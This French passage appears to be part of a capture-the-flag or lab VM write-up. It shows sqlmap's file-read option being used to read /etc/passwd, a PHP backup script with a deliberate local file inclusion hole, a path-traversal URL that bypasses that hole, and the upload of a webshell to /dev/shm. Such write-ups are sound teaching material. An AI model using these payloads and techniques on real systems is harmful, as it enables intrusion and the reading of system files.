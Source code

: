 ```php
    }                                                                                                                  
}                                                                                                                      
?>
```

Effectivement, le traitement du formulaire de login n'est pas géré, seul le paramètre `id` est réellement traité.

Toujours avec `--file-read` je peux lire `/etc/passwd` et trouver un utilisateur :

```
charlotte:x:1000:1000:charlotte,,,:/home/charlotte:/bin/bash
```

Je lis aussi la mire présente dans `/backup` :

```php
<html>

</html>
<?php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('../index.php' . $file);
?>
```

Il y a une faille d'inclusion locale via un autre paramètre caché, mais elle se fait en suffixe d'un nom de fichier.

Si je passe `/../../../../../etc/passwd` comme paramètre pour `file` alors l'inclusion échoue, car le script tente d'inclure `../index.php/../../../../../etc/passwd` et `index.php` est un fichier et non un dossier.

En revanche, si sur le chemin PHP trouve un nom de fichier ou dossier invalide alors ça fonctionne :

```
http://192.168.56.223/admin/backup/index.php?file=x/../../../../../etc/passwd
```

Ici le script va inclure `../index.phpx/../../../../../etc/passwd` et il ignore le fait que `index.phpx` n'existe pas.

Au lieu de chercher à inclure un fichier de log sur le système (après le bourrinage qu'a reçu le serveur web), j'utilise les options `--file-write=cmd.php` et `--file-dest=/dev/shm/cmd.php` pour uploader un webshell dans le dossier `/dev/shm` de la VM.
